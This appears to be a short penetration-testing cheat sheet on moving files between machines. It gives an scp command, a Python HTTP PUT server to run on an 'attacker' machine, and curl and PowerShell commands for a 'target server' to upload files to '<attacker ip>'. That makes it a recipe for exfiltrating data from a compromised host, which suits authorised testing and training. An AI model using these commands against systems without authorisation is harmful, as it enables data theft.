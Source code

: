 :arrow_forward: Downloading a file from the server with SSH

command 

```shell
scp <remote server username>@<remote server IP>:/<remote server folder>/<remote server filename> /<local folder>/<local filename>
# e.g., scp tester@192.168.10.99:/Users/tester/Desktop/123.txt /tmp/123.txt
```

:arrow_forward: Uploading a file from target server to our local HTTP server

HTTPutServer.py

```py
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler



class PUTHandler(BaseHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        content = self.rfile.read(length)
        self.send_response(200)
        with open(self.path[1:], "w") as f:
            f.write(content)


def run_on(port):
    print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".format(sys.argv[1], port))
    server_address = (sys.argv[1], port)
    httpd = HTTPServer(server_address, PUTHandler)
    httpd.serve_forever()


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage:\n\tpython {0} ip 1337".format(sys.argv[0]))
        sys.exit(1)
    ports = [int(arg) for arg in sys.argv[2:]]
    try:
        for port_number in ports:
            server = Thread(target=run_on, args=[port_number])
            server.daemon = True # Do not make us wait for you to exit
        server.start()
        signal.pause() # Wait for interrupt signal, e.g. KeyboardInterrupt
    except KeyboardInterrupt:
        print "\nPython HTTP PUT Server Stoped."
        sys.exit(1)
```

Starting server 

```shell
python HTTPutServer.py <attacker ip> <attacker port>
```

Target server uploads files

```powershell
curl --upload-file test.txt http://<attacker ip>:<attacker port>/
```

```powershell
Invoke-RestMethod -Uri http://<attacker ip>:<attacker port>/<remote file name> -Method PUT -InFile <target file>
```